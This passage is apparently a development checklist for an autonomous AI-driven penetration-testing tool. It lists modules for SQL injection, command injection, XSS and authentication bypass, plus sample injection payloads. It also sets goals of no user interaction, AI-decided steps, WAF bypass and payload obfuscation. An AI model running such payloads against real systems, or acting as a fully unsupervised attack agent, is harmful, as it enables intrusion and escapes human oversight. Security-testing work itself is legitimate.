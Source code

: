 **Requirements:**
- [ ] No user interaction after start
- [ ] AI decides all steps
- [ ] Real-time progress updates
- [ ] Save all results
- [ ] Generate report automatically

### ✅ 2.3 Real Payloads (No Simulation)

**Verify Real Payloads in:**
```
agents/sqlmap_agent.py              → Real SQLMap
agents/command_injection_exploiter.py → Real command injection
advanced_agents/zero_day_hunter.py   → Real fuzzing
advanced_agents/xss_hunter.py        → Real XSS payloads
advanced_agents/auth_bypass.py       → Real bypass techniques
```

**Payload Sources:**
```python
# Real SQL Injection Payloads
SQLI_PAYLOADS = [
    "' OR '1'='1",
    "' UNION SELECT NULL--",
    "' AND 1=CONVERT(int, (SELECT @@version))--",
    # ... 100+ real payloads
]

# Real XSS Payloads
XSS_PAYLOADS = [
    "<script>alert(1)</script>",
    "<img src=x onerror=alert(1)>",
    "<svg/onload=alert(1)>",
    # ... 100+ real payloads
]

# Real Command Injection
CMD_PAYLOADS = [
    "; whoami",
    "| whoami",
    "`whoami`",
    "$(whoami)",
    # ... 100+ real payloads
]
```

**Actions:**
- [ ] Remove all simulation/fake payloads
- [ ] Add real payload databases
- [ ] Test payloads on test targets
- [ ] Add payload encoding/obfuscation
- [ ] Add WAF bypass techniques
